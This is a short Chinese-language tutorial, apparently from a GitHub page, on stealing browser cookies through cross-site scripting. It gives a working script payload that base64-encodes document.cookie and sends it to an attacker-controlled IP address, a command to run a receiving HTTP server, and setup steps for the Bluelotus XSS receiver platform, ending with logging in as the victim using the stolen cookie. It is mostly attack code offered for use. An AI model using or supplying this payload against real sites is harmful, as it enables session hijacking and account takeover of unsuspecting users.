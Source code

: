 ### 通过XSS盗取Cookie

前提条件：

```
- 目标网站没有使用http-only
- 受害者可以访问到接收端
- 或许到Cookie后目标用户没有退出登录
```

#### 1. 利用方法

##### （1）方法一

Payload：

```javascript
<script>
window.open('http://192.168.81.238:2333/?q='+btoa(document.cookie))
</script>
```

> document.cookie用来创建、读取、删除cookie。
>
> 打开一个新的标签页，将document.cookie获取到的cookie进行base64编码拼接到URL里的q的参数值并访问该URL。

1. 攻击者启动Web服务用于接收cookie，使用python3启动一个简易的http服务（受害者浏览器需能够访问该服务器）：

   ```
   python -m http.server --bind 0.0.0.0 1234
   ```

##### （2）方法二

`Bluelotus_XSSReceiver` 清华大学蓝莲花战队做的一个平台，优点是足够小，不需要数据库，只要有个能 运行php的环境就可以，缺点是一般只适合一个人用。

1. 配置蓝莲花

   - 拉取docker镜像

     ```
     sudo docker pull romeoz/docker-apache-php:5.6
     ```

   - 启动容器

     ```
     sudo docker run -d -p 9944:80 -v /opt/bluelotus:/var/www/app romeoz/docker-apache-php:5.6
     ```

   - 修改配置

     ```
     mv bluelotus/config-sample.php bluelotus/config.php
     sudo chmod 777 bluelotus/myjs/
     sudo chmod 777 bluelotus/data/
     ```

   - 访问 `http://your-ip:port/login.php` ，密码为：`bluelotus` 

   - 修改相关配置

   - 在目标网站提交 js 代码

   - 获取受害者 cookie 登录网站
